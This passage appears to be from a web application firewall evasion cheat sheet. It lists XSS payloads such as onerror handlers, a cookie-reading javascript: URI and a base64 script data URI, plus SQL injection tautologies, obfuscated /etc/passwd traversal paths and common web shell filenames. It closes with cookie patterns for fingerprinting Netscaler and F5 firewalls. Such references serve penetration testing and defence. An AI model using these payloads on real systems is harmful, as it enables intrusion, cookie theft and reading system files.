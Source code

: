 ```
→ <video src=x onerror=alert(1);>
→ <audio src=x onerror=alert(1);>

- javascript:alert(document.cookie)
→ data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

### Blind SQL Injection
```
- 'or 1=1           '
- 'or 6=6           '
→ 'or 0x47=0x47     '
- or char(32)=''
→ or 6 is not null
```

### SQL Injection
```
- UNION SELECT
→ UNION ALL SELECT
```

### Directory Traversal
```
- /etc/passwd
→ /too/../etc/far/../passwd
→ /etc//passwd
→ /etc/ignore/../passwd
→ /etc/passwd........
```

### Web Shell
```
- c99.php
- r57.php
- shell.aspx
- cmd.jsp
- CmdAsp.asp
→ augh.php
```

## Detection and Fingerprinting

### Cookie Values
- Citrix Netscaler uses some different cookies in the HTTP responses like **ns_af** or **citrix_ns_id** or **NSC_**
- F5 BIG-IP ASM (Application Security Manager) uses cookies starting with **TS** and followed with a string that respect the following regex:

```
^TS[a-z-A-Z0-9]{3,6}
```
